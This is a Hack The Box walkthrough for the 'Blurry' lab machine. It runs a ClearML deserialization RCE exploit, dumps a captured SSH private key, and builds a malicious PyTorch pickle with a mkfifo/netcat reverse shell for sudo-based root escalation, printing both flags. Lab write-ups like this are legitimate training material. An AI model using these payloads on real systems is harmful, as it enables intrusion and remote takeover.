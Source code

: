 ```yaml
---
title: "Blurry from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Blurry from HTB
[page](https://app.hackthebox.com/machines/Blurry)
`Nmap`gave this:
```bash
$ nmap -sCV --min-rate 4000 -Pn 10.10.11.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-03 20:48 +04
Nmap scan report for app.blurry.htb (10.10.11.19)
Host is up (0.18s latency).
Not shown: 918 filtered tcp ports (no-response), 80 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: ClearML
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.22 seconds
```
There is site on this so lets add it to `/etc/hosts`:
```
10.10.11.19 blurry.htb app.blurry.htb files.blurry.htb api.blurry.htb
```
After accessing the `blurry.htb`you will get why i added all those additional subdomains.
![](/assets/images/Screenshot from 2024-08-03 21-44-14.png)
There is subdomains.
Also there is instruction to what to do, so do it, set it up. Don't do the last part.
After searching for the `clearML`exploits i got to this `github repostiroy`for RCE exploit.
```bash
$ git clone https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit.git
$ cd CVE-2024-24590-ClearML-RCE-Exploit
$ python3 exploit.py
```
After running it select the `2`option and give the stuff it tells you. It will make the server connect to you. **Don't forget `NetCat`**
```bash
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.47] from (UNKNOWN) [10.10.11.19] 50934
bash: cannot set terminal process group (65981): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ ls
ls
automation
clearml.conf
create_evil.py
evil.pth
script.py
user.txt
jippity@blurry:~$ cat user.txt
cat user.txt
a499da12aac54d2415546d560ef24d4c
```
***
user flag: a499da12aac54d2415546d560ef24d4c
***
```bash
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.47] from (UNKNOWN) [10.10.11.19] 50934
bash: cannot set terminal process group (65981): Inappropriate ioctl for device
bash: no job control in this shell$ ls -la
ls -la
total 72
drwxr-xr-x 6 jippity jippity  4096 Aug  3 12:21 .
drwxr-xr-x 3 root    root     4096 Feb  6 14:00 ..
drwxr-xr-x 2 jippity jippity  4096 Aug  3 09:40 automation
lrwxrwxrwx 1 root    root        9 Feb 17 13:03 .bash_history -> /dev/null
-rw-r--r-- 1 jippity jippity   220 Feb  6 14:00 .bash_logout
-rw-r--r-- 1 jippity jippity  3570 Feb  6 14:25 .bashrc
drwxr-xr-x 9 jippity jippity  4096 Feb  8 10:07 .clearml
-rw-r--r-- 1 jippity jippity 11007 Feb 17 11:07 clearml.conf
-rw-r--r-- 1 jippity jippity    29 Feb  6 14:41 .clearml_data.json
-rw-r--r-- 1 jippity jippity   155 Aug  3 12:21 create_evil.py
-rw-r--r-- 1 jippity jippity   852 Aug  3 12:21 evil.pth
-rw-r--r-- 1 jippity jippity    22 Feb  8 10:16 .gitconfig
drwx------ 5 jippity jippity  4096 Feb  6 14:46 .local
-rw-r--r-- 1 jippity jippity   807 Feb  6 14:00 .profile
lrwxrwxrwx 1 root    root        9 Feb 17 13:03 .python_history -> /dev/null
-rw-r--r-- 1 jippity jippity   741 Aug  3 10:12 script.py
drwx------ 2 jippity jippity  4096 Aug  3 05:22 .ssh
-rw-r----- 1 root    jippity    33 Aug  2 06:01 user.txt
```
there is `.ssh`directory and probably you will use it for `ssh`connection.
```bash
jippity@blurry:~$ cd .ssh
cd .ssh
jippity@blurry:~/.ssh$ ls
ls
authorized_keys
demo.pth
id_rsa
id_rsa.pub
jippity@blurry:~/.ssh$ cat id
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxxZ6RXgJ45m3Vao4oXSJBFlk9skeIQw9tUWDo/ZA0WVk0sl5usUV
KYWvWQOKo6OkK23i753bdXl+R5NqjTSacwu8kNC2ImqDYeVJMnf/opO2Ke5XazVBKWgByY
8qTrt+mWN7GKwtdfUqXNcdbJ7MGpzhnk8eYF+itkPFD0AcYfSvbkCc1SY9Mn7Zsp+/jtgk
FJsve7iqONPRlgvUQLRFRSUyPyIp2sGFEADuqHLeAaHDqU7uh01UhwipeDcC3CE3QzKsWX
SstitvWqbKS4E5i9X2BB56/NlzbiLKVCJQ5Sm+BWlUR/yGAvwfNtfFqpXG92lOAB4Zh4eo
7P01RInlJ0dT/jm4GF0O+RDTohk57l3F3Zs1tRAsfxhnd2dtKQeAADCmmwKJG74qEQML1q
6f9FlnIT3eqTvfguWZfJLQVWv0X9Wf9RLMQrZqSLfZcctxNI1CVYIUbut3x1H53nARfqSz
et/r/eMGtyRrY3cmL7BUaTKPjF44WNluj6ZLUgW5AAAFiH8itAN/IrQDAAAAB3NzaC1yc2
EAAAGBAMcWekV4CeOZt1WqOKF0iQRZZPbJHiEMPbVFg6P2QNFlZNLJebrFFSmFr1kDiqOj
pCtt4u+d23V5fkeTao00mnMLvJDQtiJqg2HlSTJ3/6KTtinuV2s1QSloAcmPKk67fpljex
isLXX1KlzXHWyezBqc4Z5PHmBforZDxQ9AHGH0r25AnNUmPTJ+2bKfv47YJBSbL3u4qjjT
0ZYL1EC0RUUlMj8iKdrBhRAA7qhy3gGhw6lO7odNVIcIqXg3AtwhN0MyrFl0rLYrb1qmyk
uBOYvV9gQeevzZc24iylQiUOUpvgVpVEf8hgL8HzbXxaqVxvdpTgAeGYeHqOz9NUSJ5SdH
U/45uBhdDvkQ06IZOe5dxd2bNbUQLH8YZ3dnbSkHgAAwppsCiRu+KhEDC9aun/RZZyE93q
k734LlmXyS0FVr9F/Vn/USzEK2aki32XHLcTSNQlWCFG7rd8dR+d5wEX6ks3rf6/3jBrck
a2N3Ji+wVGkyj4xeOFjZbo+mS1IFuQAAAAMBAAEAAAGANweUho02lo3PqkMh4ib3FJetG7
XduR7ME8YCLBkOM5MGOmlsV17QiailHkKnWLIL1+FI4BjPJ3qMmDY8Nom6w2AUICdAoOS2
KiIZiHS42XRg3tg9m6mduFdCXzdOZ3LV/IoN5XT6H+fDbOQdAwAlxJlml76g09y7egvjdW
KwNbdPoncDorsuIT4E6KXVaiN+XZ/DkTwq+Qg7n3Dnm3b4yrMMX30O+qORJypKzY7qpKLV
FYB22DlcyvJu/YafKL+ZLI+MW8X/rEsnlWyUzwxq93T67aQ0Nei8amO6iFzztfXiRsi4Jk
nKVuipAshuXhK1x2udOBuKXcT5ziRfeBZHfSUPyrbUbaoj/aGsg59GlCYPkcYJ1yDgLjIR
bktd7N49s5IccmZUEG2BuXLzQoDdcxDMLC3rxiNGgjA1EXe/3DFoukjGVOYxC0JbwSC1Pb
9m30zrxSJCxW7IOWWWrSgnc8EDpxw+W5SmVHRCrf+8c39rFdV5GLPshaDGWW5m9NzxAAAA
wFsqI1UWg9R9/afLxtLYWlLUrupc/6/YBkf6woRSB76sku839P/HDmtV3VWl70I5XlD+A9
GaNVA3XDTg1h3WLX/3hh8eJ2vszfjG99DEqPnAP0CNcaGJuOsvi8zFs7uUB9XWV8KYJqy2
u4RoOAhAyKyeE6JIsR8veN898bKUpuxPS2z6PElZk+t9/tE1oyewPddhBGR5obIb+UV3tp
Cm1D8B3qaG1WwEQDAPQJ/Zxy+FDtlb1jCVrmmgvCj8Zk1qcQAAAMEA9wFORKr+WgaRZGAu
G9PPaCTsyaJjFnK6HFXGN9x9CD6dToq/Li/rdQYGfMuo7DME3Ha2cda/0S7c8YPMjl73Vb
fvGxyZiIGZXLGw0PWAj58jWyaqCdPCjpIKsYkgtoyOU0DF0RyEOuVgiCJF7n24476pLWPM
n8sZGfbOODToas3ZCcYTSaL6KCxF41GCTGNP1ntD7644vZejaqMjWBBhREU2oSpZNNrRJn
afU7OhUtfvyfhgLl2css7IWd8csgVdAAAAwQDOVncInXv2GYjzQ21YF26imNnSN6sq1C9u
tnZsIB9fAjdNRpSMrbdxyED0QCE7A6NlDMiY90IQr/8x3ZTo56cf6fdwQTXYKY6vISMcCr
GQMojnpTxNNMObDSh3K6O8oM9At6H6qCgyjLLhvoV5HLyrh4TqmBbQCTFlbp0d410AGCa7
GNNR4BXqnM9tk1wLIFwPxKYO6m2flYUF2Ekx7HnrmFISQKravUE1WZjfPjEkTFZb+spHa1
RGR4erBSUqwA0AAAAOamlwcGl0eUBibHVycnkBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```
Copy it and store it in some file that you will use to connect with `ssh`:
```
nano rsa << the OPENSSH key
```
then connect to `ssh`:
```bash
$ ssh -i rsa jippity@10.10.11.19
```
And you will get the connection.
```bash
$ sudo -l
Matching Defaults entries for jippity on blurry:
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
   (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```
This is the thing you can do without sudo.
On the machine there is `script.py`that you will be needing to get the `root shell`but you need to modify it a bit:
```bash
$ cat script.py
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)

    # Define how the data flows through the model
    def forward(self, turi): # Passes input through the linear layer.
        return self.dense(turi)

    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.47 4444 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'help.pth')
```
1. The IP and The port You want to get connection on.
2. At the end as what name do you want program to save the file. From `turi.pth-> help.pth`.
Run the script and copy it to `/models/`directory for it to work.
```bash
$ python3 script.py
$ cp help.pth /models/
```
In other terminal start `nc -nlvp 4444`and then in `ssh`terminal run the code:
```bash
$ /usr/bin/evaluate_model /models/help.pth
```
And then you will get the connection on `NetCat`as root:
```bash
# cat /root/root.txt
b975dc3b2ca5a27ebe1c1ee3e391ce98
```
***
root flag: b975dc3b2ca5a27ebe1c1ee3e391ce98
***
![](/assets/images/Screenshot from 2024-08-03 21-40-29.png)
